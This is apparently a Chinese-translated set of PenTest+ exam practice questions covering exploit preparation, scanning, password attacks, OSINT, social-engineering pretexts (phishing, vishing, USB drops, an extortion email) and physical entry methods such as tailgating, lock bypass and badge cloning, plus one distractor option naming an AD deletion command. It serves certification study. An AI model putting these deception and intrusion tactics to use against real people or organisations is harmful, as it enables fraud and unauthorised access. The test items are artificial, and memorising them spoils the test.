## 132. 你刚刚完成了对目标网络的扫描，现在正在为利用发现的漏洞做准备并优先安排活动。你发现组织仍在使用几台较旧的 Windows Server 2003 系统，这些系统未得到妥善更新，并且容易受到特定漏洞的攻击。你决定编写一个小型程序来利用此漏洞。然而，你几乎完全使用 Kali Linux。你应该怎么做来编写 Windows 程序？（选择两项。）
1. 在你的 Linux 系统上用 C 编写代码。
2. 利用漏洞链。
3. 在 Windows 笔记本电脑上用 C++ 编写代码。
4. 跨编译代码。
5. 实现凭据暴力破解。


# 渗透测试问题

### 133. 你刚刚完成了对目标网络的扫描，现在正在优先安排活动以准备利用发现的漏洞。你发现组织仍在使用几台较旧的已不受支持的 Windows 2000 Server 系统。经过一些研究后，你确定了与这些系统相关的几个可被利用的漏洞。你修改了特定漏洞利用的源代码，使其能够在这些较旧的系统上运行，然后编译它。在此场景中你使用的流程叫什么？（选择两项。）
1. 跨编译代码
2. 漏洞利用修改
3. 漏洞利用链
4. 将漏洞映射到潜在的漏洞利用
5. 概念验证开发

### 134. 你刚刚完成了对目标网络的扫描，现在正在优先安排活动以准备利用发现的漏洞。你想要攻击的系统无法通过单一漏洞利用被攻破。然而，你确定可以结合使用多个漏洞利用来攻破系统。第一个突破系统的基于主机的防火墙。第二个利用密码薄弱的用户账户。第三个在系统上提升权限。你的解决方案叫什么？
1. 欺骗
2. 漏洞利用修改
3. 漏洞利用链
4. 凭证暴力破解
5. 概念验证开发

### 135. 你刚刚完成了对目标网络的扫描，现在正在优先安排活动以准备利用发现的漏洞。你发现组织仍在使用几台较旧的已不受支持的 Windows 2000 Server 系统。经过一些研究后，你确定了与这些系统相关的几个可被利用的漏洞。你修改了特定漏洞利用的源代码，使其能够在这些较旧的系统上运行，然后编译它。你下一步应该做什么？
1. 攻击目标系统。
2. 在实验室环境中的虚拟机上测试修改后的漏洞利用。
3. 实施凭证暴力破解。
4. 跨编译代码。

### 136. 你正在进行黑盒渗透测试。在获得内部网络访问权限并运行漏洞扫描后，你已识别出目标系统并将其漏洞映射到特定的漏洞利用。然而，要执行漏洞利用，你需要物理访问内部网络插孔。因此，你尾随进入设施，插入你的笔记本电脑并运行漏洞利用。在此场景中你使用了什么技术？（选择两项。）
1. 欺骗
2. 漏洞利用修改
3. 社会工程学
4. 凭证暴力破解
5. 概念验证开发

### 137. 以下哪种技术涉及向身份验证系统一次发送一个密码，试图找到正确的密码？
1. 彩虹表
2. Teardrop 攻击
3. 凭证暴力破解
4. SYN 攻击

### 138. 以下哪种技术涉及从常用密码列表中一次发送一个密码，试图找到正确的密码？
1. 彩虹表
2. SYN 攻击
3. 中间人攻击
4. 字典攻击

### 139. 以下哪一项是预先计算的常用密码哈希值列表，可用于离线密码文件破解？
1. 彩虹表
2. 指纹
3. 数字签名
4. 私钥

### 140. 以下哪些是通常用于控制制造设备和环境系统的特殊网络设备？（选择两项。）
1. ICS
2. SCADA
3. 销售点
4. RTOS
5. 物联网

### 141. 以下哪些是与移动设备相关的安全弱点？（选择两项。）
1. 弱加密
2. Rooting 或越狱
3. 不支持 SSL/TLS
4. 易受跨站脚本攻击
5. 更新不一致

### 142. 以下哪些设备可能具有最弱的固有安全性？（选择两项。）
1. Windows 服务器
2. Linux 服务器
3. Windows 工作站
4. 嵌入式设备
5. 智能物联网设备

### 143. 你正在为一家小型零售连锁店进行黑盒渗透测试。当你枚举其中一个零售网点时，你发现他们的销售点（POS）系统直接连接到互联网。当你对其进行足迹分析时，它们似乎运行的是 Windows XP SP3。你访问了其中一个零售网点，注意到 POS 系统使用有线连接连接到网络，并用电缆锁固定在柜台上。你应在最终报告中向客户推荐什么？（选择两项。）
1. 用智能手机替换 POS 设备。
2. 使用无线连接将 POS 设备连接到网络。
3. 将 POS 设备隔离在其自己的子网中，该子网没有互联网连接。
4. 将 POS 设备升级到更新的版本。
5. 升级物理安全。

### 144. 你正在进行灰盒渗透测试。在现场时，你注意到所有员工都使用 USB 指纹生物识别扫描仪来验证其系统。与这种类型的身份验证系统相关的安全弱点是什么？
1. 它们可以用假指纹欺骗。
2. 它们可以通过简单地断开连接来绕过。
3. 它们在死皮、油和其他碎屑遮挡读头时产生误报。
4. 它们在暴露于阳光下时可能会产生误报。

### 145. 基于消费者的物联网（IoT）设备通常比为传统台式计算机设计的系统安全性更低。为什么这个说法是正确的？
1. 设计物联网设备的开发人员对安全性关注不足。
2. 管理员难以广泛应用相同的安全标准。
3. 物联网系统通常缺乏某些更稳健解决方案所需的硬件能力。
4. 监管机构对物联网系统的约束通常较低。

### 146. 在外部漏洞扫描期间，渗透测试人员发现了以下结果：
| **漏洞** || **端口** |
| --- | --- |
| 发现多个不受支持的 Apache 版本 || 80, 443 |
| HTTPS 连接接受 SSLv3 || 443 |
| Apache 服务器启用了 Mod_rewrite || 80, 443 |
| 发现 Windows Server 主机 || 21 |
根据这些结果，应如何优先考虑攻击策略？
1. 过时的软件可能包含易受攻击的组件。
2. 正在使用弱密码管理实践。
3. 弱协议可能会被拦截。
4. Web 服务器上可能会泄露敏感信息。

### 147. 渗透测试人员被要求通过远程扫描来确定客户的服务器场是否符合公司的软件基线。测试人员应执行什么类型的扫描来验证合规性？
1. 凭证扫描
2. 发现扫描
3. 全面扫描
4. 隐蔽扫描

### 148. 你是一名渗透测试人员，正在配置你的漏洞管理解决方案以对客户网络上的服务器执行凭证扫描。你应该获得什么类型的账户？
1. 域管理员账户
2. 本地管理员账户
3. 512 位加密证书
4. 只读账户

### 149. 渗透测试人员被客户要求对 Web 应用程序进行代码审查。渗透测试人员正在执行什么类型的分析？
1. 动态代码分析
2. 模糊测试
3. 故障注入
4. 静态代码分析


# 渗透测试问题

### 150. 渗透测试人员拥有域控制器的完全访问权限，并希望发现过去 30 天未活跃的任何用户账户。渗透测试人员应使用什么命令？
1. `dsrm -users "DN=client.com; OU=hq CN=users"`
2. `dsquery user -inactive 4`
3. `dsquery -o -rdn -limit 30`
4. `dsuser -name -account -limit 3`

### 151. 你是一名渗透测试人员，正在与客户讨论测试委托协议的属性。以下哪一项对在客户高峰负载期间对其生产系统的观察和测试影响最大？
1. 为客户创建关键生产系统的范围
2. 与客户建立白盒测试参与
3. 让客户的管理团队对任何侵入性测试签字批准
4. 安排访问其系统的测试时间表

### 152. 经过多次尝试后，测试人员能够通过使用自己的指纹未经利用而通过生物识别传感器获得未经授权的访问。生物识别设备发生了什么情况才允许测试人员获得访问权限？
1. 设备配置更偏向真负例。
2. 设备设置为故障关闭。
3. 设备复制了有效用户的指纹。
4. 设备调校更偏向假阳性。

### 153. 渗透测试人员已完成对客户网络的简单合规扫描。结果表明网络上存在一部分资产。此信息与测试前提供给测试人员的网络架构图显示的信息不同。差异最可能的原因是什么？（选择两项。）
1. DHCP 服务器配置错误
2. 凭据不正确
3. 网络访问受限
4. 网络访问控制（NAC）
5. 存储访问

### 154. 渗透测试人员在范围内的一个 VLAN 中发现了监控与数据采集（SCADA）设备。哪项操作最有可能对该设备造成潜在的破坏性后果？
1. 开始 DNS 缓存中毒攻击
2. 开始 Nessus 漏洞扫描
3. 开始 SMB 利用
4. 开始 SNMP 密码暴力破解攻击

### 155. 渗透测试人员正在使用社交媒体收集有关公司不同员工的信息。测试人员已创建一份员工个人资料中经常使用的流行词列表。此信息可用于何种类型的攻击？
1. 字典攻击
2. 利用链攻击
3. Karma 攻击
4. 会话劫持攻击

### 156. 你是一名渗透测试人员，在进行最近一次测试后，发现客户员工使用的是字典和季节性密码。控制常用字典词被用作密码的最佳方法是什么？
1. 配置密码过滤器。
2. 三次输入错误后禁用账户。
3. 将密码长度从七个字符扩展到 14 个字符并添加特殊字符。
4. 实施密码历史记录限制。

### 157. 你是一名渗透测试人员，正在对客户网络进行黑盒渗透测试，并正在收集漏洞扫描结果。哪种类型的扫描将在你的测试范围内为你提供重要信息？
1. 合规扫描
2. 发现扫描
3. 完整扫描
4. 隐蔽扫描

### 158. 安全分析师正尝试在不影响系统或其数据的情况下识别客户 Web 应用程序中的漏洞。以下哪一项最能描述正在执行的漏洞扫描类型？
1. 积极扫描
2. 合规扫描
3. 非凭据扫描
4. 被动扫描

### 159. 你是一名渗透测试人员，正在扫描网络。你使用的漏洞扫描器正在使用服务访问级别，以便更好地评估组织内多个资产的漏洞。正在执行什么操作？
1. 凭据扫描
2. 非侵入式扫描
3. 被动扫描
4. 权限提升测试

### 160. 组织正在使用工具执行源代码审查。渗透工具错误地识别出一个漏洞。这种情况被称为什么？
1. 假阴性
2. 假阳性
3. 真阴性
4. 真阳性

### 161. 你是一名渗透测试人员，正在为你的渗透活动交叉编译代码。然后你计划部署它。为什么要交叉编译代码？
1. 添加额外库
2. 允许你检查源代码
3. 在多个平台上运行
4. 在不同架构上运行

### 162. 以下哪些特征区分了彩虹表攻击与暴力破解攻击？（选择两项。）
1. 彩虹表攻击在攻击时减少计算周期。
2. 彩虹表必须包含预编译的哈希。
3. 彩虹表攻击不需要访问哈希密码。
4. 彩虹表攻击必须在网络上执行。
5. 彩虹表攻击绕过最大失败登录限制。

### 163. 渗透测试人员想要对捕获的密码文件使用彩虹表。彩虹表如何破解密码？
1. 通过比较哈希以识别已知值
2. 通过解密密码
3. 通过反哈希密码
4. 通过对哈希进行暴力测试

### 164. 渗透测试人员正在进行渗透测试中，并且在不主动扫描客户的情况下收集信息。正在收集哪种类型的信息？
1. 背景调查
2. 商用记录搜索
3. 情报收集
4. 开源情报（OSINT）

### 165. 以下哪一项不是开源情报（OSINT）收集工具？
1. FOCA
2. Nessus
3. `nslookup`
4. `whois`

### 166. 你和同事正在讨论开源情报（OSINT），讨论倾向于讨论漏洞和其他安全缺陷。有许多组织致力于集中这些知识。其中一个组织处理广泛的网络安全活动。它专注于安全漏洞和拒绝服务事件，提供警报以及事件处理和规避指南。我们讨论的是哪个组织？
1. 通用攻击模式枚举与分类（CAPEC）
2. 计算机应急响应团队（CERT）
3. 通用弱点枚举（CWE）
4. 国家标准与技术研究所（NIST）

### 167. 你和同事正在讨论开源情报（OSINT），讨论倾向于讨论漏洞和其他安全缺陷。有许多组织致力于集中这些知识。其中一个组织使用一个列表作为资源，旨在帮助识别和记录攻击和攻击模式。它允许用户按其机制或域搜索攻击，然后使用各种属性和先决条件分解每种攻击。我们讨论的是哪个组织？
1. 通用攻击模式枚举与分类（CAPEC）
2. 计算机应急响应团队（CERT）
3. 通用弱点枚举（CWE）
4. 国家标准与技术研究所（NIST）


### 168. 你是一名渗透测试人员，客户希望你扫描他们的系统，并且会竭尽全力避免被检测到。客户不希望他们的网络安全团队意识到正在进行渗透测试。你将执行哪种类型的扫描？
1. 合规扫描
2. 发现扫描
3. 完整扫描
4. 隐蔽扫描

# 第三章
## 攻击与利用

本章涵盖的 PENTEST+ 考试主题包括：

领域 3：攻击与利用

### 3.1 比较和对比社会工程攻击。

* 钓鱼
  * 精准钓鱼
  * SMS 钓鱼
  * 语音钓鱼
  * 捕鲸式钓鱼
* 诱导
  * 企业电子邮件欺诈
* 审问
* 冒充
* 肩窥
* USB 钥匙投放
* 动机技巧
  * 权威
  * 稀缺
  * 社会认同
  * 紧迫性
  * 相似性
  * 恐惧

### 3.2 在给定场景下，利用基于网络的漏洞。

* 名称解析利用
  * NETBIOS 名称服务
  * LLMNR
* SMB 利用
* SNMP 利用
* SMTP 利用
* FTP 利用
* DNS 缓存投毒
* 哈希传递
* 中间人攻击
  * ARP 欺骗
  * 重放
  * 中继
  * SSL 剥离
  * 降级
* DoS/压力测试
* NAC 绕过
* VLAN 跳转

### 3.3 在给定场景下，利用无线和射频漏洞。

* 恶意双胞胎
  * Karma 攻击
  * 降级攻击
* 去认证攻击
* 分片攻击
* 凭证收割
* WPS 实现弱点
* 蓝牙劫持
* 蓝牙窃取
* RFID 克隆
* 干扰
* 重放

### 3.4 在给定场景下，利用基于应用的漏洞。

* 注入
  * SQL
  * HTML
  * 命令
  * 代码
* 身份验证
  * 凭证暴力破解
  * 会话劫持
  * 重定向
  * 默认凭证
  * 弱凭证
  * Kerberos 利用
* 授权
  * 参数污染
  * 不安全的直接对象引用
* 跨站脚本 (XSS)
  * 存储型/持久型
  * 反射型
  * DOM
* 跨站请求伪造 (CSRF/XSRF)
* 点击劫持
* 安全配置错误
  * 目录遍历
  * Cookie 操纵
* 文件包含
  * 本地
  * 远程
* 不安全代码实践
  * 源代码中的注释
  * 缺少错误处理
  * 过于详细的错误处理
  * 硬编码凭证
  * 竞态条件
  * 未经授权使用函数/未受保护的 API
  * 隐藏元素
  * DOM 中的敏感信息
  * 缺少代码签名

### 3.5 在给定场景下，利用本地主机漏洞。

* 操作系统漏洞
  * Windows
  * Mac OS
  * Linux
  * Android
  * iOS
* 不安全服务和协议配置
* 权限提升
  * Linux 特定
    * SUID/SGID 程序
    * 不安全 SUDO
    * Ret2libc
    * 粘滞位
  * Windows 特定
    * Cpassword
    * LDAP 中的明文凭证
    * Kerberoasting
    * LSASS 中的凭证
    * 无人值守安装
    * SAM 数据库
    * DLL 劫持
  * 可利用服务
    * 未加引号的服务路径
    * 可写服务
  * 不安全的文件/文件夹权限
  * 键盘记录器
  * 计划任务
  * 内核利用
* 默认账户设置
* 沙箱逃逸
  * Shell 升级
  * 虚拟机
  * 容器
* 物理设备安全
  * 冷启动攻击
  * JTAG 调试
  * 串行控制台

### 3.6 总结与设施相关的物理安全攻击。

* 跟随进入/尾随
* 翻越围栏
* 翻垃圾桶
* 撬锁
* 锁绕过
* 出口传感器
* 徽章克隆

### 3.7 在给定场景下，执行后利用技术。

* 横向移动
  * RPC/DCOM
    * PsExec
    * WMI
    * 计划任务
  * PS 远程/WinRM
  * SMB
  * RDP
  * Apple 远程桌面
  * VNC
  * X 服务器转发
  * Telnet
  * SSH
  * RSH/Rlogin
* 持久化
  * 计划作业
  * 计划任务
  * 守护进程
  * 后门
  * 木马
  * 新用户创建
* 掩盖痕迹

### 1. 你正在为客户进行黑盒渗透测试。你已使用侦察工具创建了目标组织内员工电子邮件地址的列表。你撰写了一封电子邮件发送给所有员工，警告他们必须在 24 小时内更改密码，否则将失去访问权限。当他们点击电子邮件中提供的链接时，他们会被重定向到你的网站，在那里他们的凭证会被捕获到文本文件中。你使用的是哪种类型的利用？
1. 钓鱼
2. 语音钓鱼
3. 短信钓鱼
4. 捕鲸式钓鱼

### 2. 你正在为一家中型组织进行灰盒渗透测试。你已使用侦察技术识别了一名帮助台员工和一名工资单员工。你向工资单员工发送了一封电子邮件，看起来来自帮助台员工，指示工资单员工重置她的密码。当她点击电子邮件中提供的链接时，她会被重定向到你的网站，在那里她的凭证会被捕获到文本文件中。你使用的是哪种类型的利用？
1. 钓鱼
2. 审问
3. 精准钓鱼
4. 捕鲸式钓鱼

### 3. 你正在为一家中型组织进行黑盒渗透测试。你已使用侦察技术识别了 CEO 的电子邮件地址以及一名帮助台员工的电子邮件地址。你向 CEO 发送了一封电子邮件，看起来来自帮助台员工，指示 CEO 重置她的密码。当她点击电子邮件中提供的链接时，她会被重定向到你的网站，在那里她的凭证会被捕获到文本文件中。你使用的是哪种类型的利用？
1. 短信钓鱼
2. 语音钓鱼
3. 精准钓鱼
4. 捕鲸式钓鱼

### 4. 你正在为一家销售进口服装的中型组织进行黑盒渗透测试。你已使用侦察技术识别了一名关键软件开发人员。你向该员工发送了一条个性化短信，其中包含一个指向你的网站的 Bitly URL，在该网站上你将信息捕获到文本文件中。在此场景中你使用的是哪种类型的利用？
1. 钓鱼
2. 短信钓鱼
3. 语音钓鱼
4. 捕鲸式钓鱼


# 渗透测试问题

### 5. 你正在为一家在美国批发进口电子设备的小型组织进行黑盒渗透测试。你已使用侦察技术识别出一位接待员的电话号码以及该组织的打印机供应商。你打电话给这位接待员，假装是该供应商的销售代表。你向接待员询问有关其打印机、工作站、操作系统等的信息，以了解更多关于组织网络基础设施的信息。在此场景中你使用了什么类型的利用？
1. Smishing
2. Vishing
3. Spear phishing
4. Whaling

### 6. 哪种社会工程技术涉及通过恐吓质问员工以获取信息？
1. Phishing
2. Smishing
3. Impersonation
4. Interrogation

### 7. 你正在为一家大型金融机构进行黑盒渗透测试。使用侦察技术，你已识别出为该组织总部内自动售货机提供服务的供应商。你穿着与该供应商员工相似的制服。你还购买了一辆手推车和几箱汽水。目标组织的接待员允许你进入并将你带到休息室。在此场景中你使用了什么类型的利用？
1. Impersonation
2. Smishing
3. Vishing
4. Elicitation

### 8. 你正在为一家中型制造组织进行黑盒渗透测试。使用侦察技术，你已识别出为该组织总部内打印机提供服务的供应商。你穿着与该供应商员工相似的制服。你还购买了一套包含打印机维修技术人员常用工具的工具包。目标组织的接待员允许你进入并将你带到一台有问题的打印机。在“维修”该打印机时，你与附近的员工聊天以收集信息。在此场景中你使用了哪些利用？（选择两个。）
1. Impersonation
2. Whaling
3. Phishing
4. Interrogation
5. Elicitation

### 9. 你正在为一家中型制造组织进行黑盒渗透测试。使用侦察技术，你已识别出为该组织总部内打印机提供服务的供应商。你穿着与该供应商员工相似的制服。你还购买了一套包含打印机维修技术人员常用工具的工具包。目标组织的接待员允许你进入并将你带到一台有问题的打印机。在组织内“工作”时，你暗中观察员工打字，试图收集敏感信息。在此场景中你使用了哪些利用？（选择两个。）
1. Shoulder surfing
2. Phishing
3. Impersonation
4. Interrogation
5. Elicitation

### 10. 你正在为一家中型制造组织进行黑盒渗透测试。使用侦察和钓鱼技术，你已攻破了一名员工电子邮件账户的密码。你使用该账户质问其他员工，试图收集敏感信息和文件。在此场景中你使用了哪些利用？（选择两个。）
1. Shoulder surfing
2. Phishing
3. Impersonation
4. Interrogation
5. Elicitation

### 11. 你受雇为客户进行黑盒渗透测试。你购买了一个小型闪存驱动器并加载了恶意软件，该恶意软件会在受害者计算机上安装键盘记录器并将捕获的信息发送给你。你走进客户的前门并向接待员询问附近体育场馆的路线。在交谈时，你故意将驱动器掉在地上然后离开。在此场景中使用了哪种利用？
1. Shoulder surfing
2. USB key drop
3. Phishing
4. Elicitation

### 12. 哪种利用会不加选择地向目标组织的大量员工发送电子邮件，预期其中一部分人会点击消息中包含的恶意链接？
1. Phishing
2. Spear phishing
3. SMS phishing
4. Whaling

### 13. 哪种利用依赖短信传递钓鱼信息？
1. Elicitation
2. Spear phishing
3. SMS phishing
4. Whaling

### 14. 哪种利用依赖电话呼叫来说服某人透露敏感信息？
1. Vishing
2. Spear phishing
3. Phishing
4. Whaling

### 15. 哪些利用要求渗透测试人员首先进行广泛的侦察，以识别组织内要针对的具体高价值个人？（选择两个。）
1. Spear phishing
2. Phishing
3. USB key drop
4. Whaling
5. SMS phishing

### 16. 哪种社会工程技术在渗透测试中最不可能被使用？
1. Interrogation
2. Impersonation
3. Shoulder surfing
4. USB key drop

### 17. 你受雇为客户进行黑盒渗透测试。你购买了一个小型闪存驱动器并加载了会向你发送信息的恶意软件。使用侦察技术，你已识别出为该组织总部供暖和空调提供服务的供应商。你穿着与该供应商员工相似的制服并购买了他们常用的工具。目标组织的接待员允许你进入并将你带到机械室。你路过一个开放的工位时，故意将闪存驱动器留在用户椅子上。在此场景中使用了哪些利用？（选择两个。）
1. Elicitation
2. Impersonation
3. Shoulder surfing
4. USB key drop
5. Business email compromise

### 18. 你受雇为客户进行黑盒渗透测试。你走进组织的主入口并向接待员询问当前的工作空缺信息。你观察她在电脑上输入的按键，希望捕获可用于访问内部网络的敏感信息。在此场景中使用了哪种利用？
1. Spear phishing
2. Impersonation
3. Shoulder surfing
4. USB key drop
5. Business email compromise

### 19. 你受雇为客户进行灰盒渗透测试。你刚好在她登录电子邮件账户时走过并观察她在电脑上输入的按键。当天晚上员工下班后，你登录她的电子邮件账户并向其他员工发送信息请求。在此场景中使用了哪些利用？（选择两个。）
1. Spear phishing
2. Whaling
3. USB key drop
4. Shoulder surfing
5. Business email compromise

### 20. 你正在作为黑盒渗透测试的一部分进行侦察。你注意到目标组织的员工通常在某个特定的户外餐厅聚餐午餐。你开始经常光顾同一家餐厅午餐并与几名目标组织的员工成为朋友。在你赢得他们的信任后，他们开始分享有关他们的工作、电脑、上司、客户、项目等信息。在此场景中发生了什么类型的利用？
1. Whaling
2. Elicitation
3. Interrogation
4. Phishing

### 21. 一名渗透测试人员向目标组织的员工发送了一封 spear phishing 电子邮件，自称是运营总监。电子邮件要求员工回复敏感内部信息。渗透测试人员在此场景中使用了什么动机因素？
1. Authority
2. Scarcity
3. Social proof
4. Likeness


# 渗透测试问题

## 22. 一名渗透测试人员向目标组织的员工发送了一封 spear phishing 邮件，声称自己是联邦调查局（FBI）的特工。邮件指出员工的经理因挪用公款被调查，并要求员工回复敏感的内部信息。在此场景中，渗透测试人员使用了什么动机因素？
1. 相似性
2. 稀缺性
3. 社会认同
4. 权威

## 23. 一名渗透测试人员向目标组织的员工发送了一封 spear phishing 邮件，声称自己是一名忘记密码的同事。邮件指出她几分钟后有一个演示，无法访问共享网络驱动器上的演示文件。她要求员工“借”给他用户名和密码，以便她登录获取文件。在此场景中，渗透测试人员使用了什么动机因素？
1. 恐惧
2. 紧迫性
3. 权威
4. 稀缺性

## 24. 一名渗透测试人员向目标组织的员工发送了一封钓鱼邮件。邮件中的链接指向一个虚假网站，该网站列出了超过 1,000 条评论，平均评分为 4.9 星。在此场景中，渗透测试人员使用了什么动机因素？
1. 社会认同
2. 紧迫性
3. 稀缺性
4. 权威

## 25. 一名渗透测试人员向目标组织的员工发送了一封钓鱼邮件。邮件声称以极低的价格提供 iPad。然而，此价格下只剩下 25 台。邮件中的链接指向一个虚假网站，该网站使用 drive-by-download 脚本在员工计算机上植入键盘记录器。在此场景中，渗透测试人员使用了什么动机因素？
1. 恐惧
2. 社会认同
3. 权威
4. 稀缺性

## 26. 你正在作为黑盒渗透测试的一部分进行侦察。你注意到目标组织的员工通常在某个特定的户外餐厅午餐共聚。你雇佣了几名年轻、体格 attractive 的顾问来协助渗透测试。你让他们去同一家餐厅午餐，并让他们与目标组织的几名员工交朋友。他们赢得了员工的信任，员工开始分享有关他们的工作、电脑、上司、客户、项目等信息。在此场景中使用了哪种动机因素？
1. 权威
2. 稀缺性
3. 社会认同
4. 相似性

## 27. 在渗透测试期间，你向目标组织的 CFO 发送了一封电子邮件。邮件声称 CFO 笔记本电脑上的网络摄像头已被秘密用于录制他观看色情内容。邮件威胁说，如果他不提供有关其公司的某些敏感信息，就将发布此视频并通知他的家人、雇主和警察。在此场景中使用了哪种动机因素？
1. 恐惧
2. 社会认同
3. 权威
4. 稀缺性

## 28. 一名渗透测试人员向目标组织的一名销售代表发送电子邮件，声称自己是该组织最重要的客户之一的 CEO。邮件要求员工创建一个 VPN 账户，以便 CEO 访问组织网络上的某些文件。邮件威胁说，如果不这样做，将终止业务关系。渗透测试人员在此场景中使用了什么动机因素？
1. 相似性
2. 社会认同
3. 权威
4. 稀缺性

## 29. 一名渗透测试人员向目标组织的一名员工发送电子邮件，声称自己是一名在外地的销售代表。她在邮件中声称，她从酒店的 VPN 连接运行极慢，无法访问客户数据。如果她得不到数据，她将失去这笔销售。消息要求员工通过电子邮件向她发送文件的副本。渗透测试人员在此场景中使用了什么动机因素？
1. 社会认同
2. 紧迫性
3. 稀缺性
4. 权威

## 30. 一名渗透测试人员向目标组织的一名员工发送电子邮件，声称自己是一名在外地的销售代表。她在邮件中声称她忘记了 VPN 密码，现在因为尝试了太多错误密码而被锁定。她要求员工提供他的 VPN 用户名和密码，以便她登录并用一笔巨大的新订单更新客户数据库。她在邮件中提到，目标员工的一位同事过去曾为她做过这件事，这不是什么大事。渗透测试人员在此场景中使用了哪些动机因素？（选择两个。）
1. 社会认同
2. 紧迫性
3. 稀缺性
4. 权威
5. 恐惧

## 31. 哪种动机因素会因有限供应的感觉而促使人们迅速行动？
1. 社会认同
2. 相似性
3. 稀缺性
4. 权威

## 32. 哪种动机因素会促使人们行动，因为他们认为“其他人都这样做”？
1. 社会认同
2. 恐惧
3. 稀缺性
4. 权威

## 33. 哪种动机因素会促使人们行动，因为有影响力的人希望他们这样做？
1. 相似性
2. 社会认同
3. 权威
4. 稀缺性

## 34. 哪种动机因素会促使人们迅速行动，因为他们认为有人需要帮助？
1. 社会认同
2. 紧迫性
3. 稀缺性
4. 权威

## 35. 哪种动机因素会促使人们行动，因为他们想取悦向他们提出请求的人？
1. 相似性
2. 社会认同
3. 权威
4. 稀缺性

## 36. 哪种动机因素会促使人们行动，因为他们担心不行动的后果？
1. 社会认同
2. 恐惧
3. 稀缺性
4. 权威

## 37. 一名渗透测试人员通过跟在一名员工后面，并在门完全关闭之前抓住受身份验证保护的门，进入目标组织的物理设施。这种技术叫什么？
1. 搭便车
2. 尾随进入
3. 锁绕过
4. 徽章克隆

## 38. 一名渗透测试人员在停车场与一名员工搭讪并与她一起走过一扇使用 proximity 徽章阅读器控制出入的门。员工使用她的徽章打开门并为渗透测试人员打开门。这种技术叫什么？
1. 搭便车
2. 尾随进入
3. 锁绕过
4. 徽章克隆

## 39. 一名渗透测试人员在目标组织的停车场等待，直到她看到一群员工从午餐返回。她悄悄地插入到队伍的后面。队伍中的第一个人用他的徽章解锁一扇安全门。渗透测试人员能够与队伍中的其他人一起穿过门。这种技术叫什么？
1. 搭便车
2. 尾随进入
3. 锁绕过
4. 徽章克隆

## 40. 当一名渗透测试人员接近目标组织物理设施的主入口时，她注意到旋转门用于控制出入。她小心地跨过旋转门而不是走过它。这种技术叫什么？
1. 搭便车
2. 尾随进入
3. 锁绕过
4. 跨越围栏

## 41. 一名渗透测试人员翻找目标组织的垃圾并找到一张光盘。他在自己的笔记本电脑上读取光盘，发现它包含来自人力资源部的几份非常敏感的文件。此场景中发生了什么类型的 exploit？
1. 垃圾箱挖掘
2. 尾随进入
3. 跨越围栏
4. 出入口传感器绕过


# 渗透测试问题

### 42. 一名渗透测试人员冒充自动售货机维修人员以获得进入目标组织设施的物理访问权限。进入后，他注意到通往服务器室的门使用的是简单的按钮式门锁，不使用任何电子身份验证。他可以使用哪种物理安全攻击来进入服务器室？
1. 开锁
2. 尾随进入
3. 跨越围栏
4. 出入口传感器绕过

### 43. 一名渗透测试人员冒充供暖和制冷维修人员以获得进入目标组织设施的物理访问权限。进入后，她要求进入服务器室调查冷气回风问题。当她离开服务器室时，她偷偷在门锁舌上贴了一块强力胶带，使她以后可以未经授权返回房间。这项技术叫什么？
1. 开锁
2. 锁绕过
3. 跨越围栏
4. 徽章克隆

### 44. 设施的外侧双层玻璃门安装了运动传感器，当有人离开设施时会自动解锁门。为了未经授权进入设施，一名渗透测试人员在两扇门之间的中心缝隙中喷洒一罐空气清洁剂以触发运动传感器并解锁门。这项技术叫什么？
1. 开锁
2. 尾随进入
3. 跨越围栏
4. 出入口传感器绕过

### 45. 在食物卡车排队时，排在目标组织员工后面，一名渗透测试人员偷走她的访问徽章，并在假访问徽章上复制其 RFID 信号。这项技术叫什么？
1. 出入口传感器绕过
2. 锁绕过
3. 徽章克隆
4. 跨越围栏

### 46. 一名渗透测试人员在清晨等待在目标组织的停车场，直到她看到一名员工走向前门。她在笨拙地搬运几个大箱子的同时走在员工身后。她请员工为她按住门，并得以进入设施。这项技术叫什么？
1. 搭便车
2. 尾随进入
3. 锁绕过
4. 徽章克隆

### 47. 一名渗透测试人员观察到目标组织许多员工在上午 10 点和下午 2 点聚集在设施后门外吸烟。第二天，测试人员加入该群体并假装与他们一起吸烟。当群体吸烟结束后，测试人员跟在群体后面走过后门。这项技术叫什么？
1. 搭便车
2. 尾随进入
3. 锁绕过
4. 徽章克隆

### 48. 目标组织的设施被高高的带刺铁丝网的链式围栏包围。渗透测试人员观察到围栏的偏远部分被灌木丛覆盖。深夜，她使用螺栓剪在围栏上剪开一个缝隙，以便稍后可以溜过去。这项技术叫什么？
1. 出入口传感器绕过
2. 锁绕过
3. 徽章克隆
4. 跨越围栏

### 49. 渗透测试人员观察到目标组织的垃圾每周二早上很早就被清理。周一深夜，她爬进组织的垃圾容器，收集被丢弃的文件、光盘和存储设备，如闪存驱动器。此场景中发生了什么类型的利用？
1. 垃圾箱挖掘
2. 尾随进入
3. 跨越围栏
4. 出入口传感器绕过

### 50. 撬锁至少需要哪些工具？（选择两项。）
1. 内部锁定机构的示意图
2. 一罐喷雾润滑剂
3. 张力扳手
4. 开锁工具

### 51. 一名渗透测试人员冒充供暖和制冷维修人员以获得进入目标组织设施的物理访问权限。进入后，她要求进入服务器室调查冷气回风问题。当她离开服务器室时，她偷偷将一个小木楔塞进门框，防止门完全关闭。这使她以后可以未经授权返回房间。这项技术叫什么？
1. 开锁
2. 锁绕过
3. 跨越围栏
4. 徽章克隆

### 52. 下列哪些出入口传感器的功能可以被操纵，使渗透测试人员能够未经授权进入建筑物？
1. 紧急故障打开
2. 自动锁定
3. 通过运动传感器用于出入口的自动解锁
4. 通过光传感器用于出入口的自动解锁

### 53. 一名渗透测试人员翻找目标组织的垃圾，发现一张被丢弃的访问徽章。她使用被丢弃的徽章作为模型制作了一张带有她照片的新徽章。她使用设备读取被丢弃徽章的磁条并将其复制到假徽章上。此场景中测试人员使用了哪些技术？（选择两项。）
1. 开锁
2. 垃圾箱挖掘
3. 跨越围栏
4. 徽章克隆
5. 锁绕过

### 54. 使用侦察，一名渗透测试人员了解到目标组织的员工使用 RFID 访问徽章解锁设施内的门。通过公司的网站，他识别出组织中的高级员工。然后他在停车场等待，直到看到其中一名个人走向前门。他在身后跟随他们进入接待区，手中藏着一个小 RFID 读取器。他捕获了该个人的徽章 RFID 信号，然后制作自己的假访问徽章并用该 RFID 信号对其进行编码。这项技术叫什么？
1. 搭便车
2. 尾随进入
3. 锁绕过
4. 徽章克隆

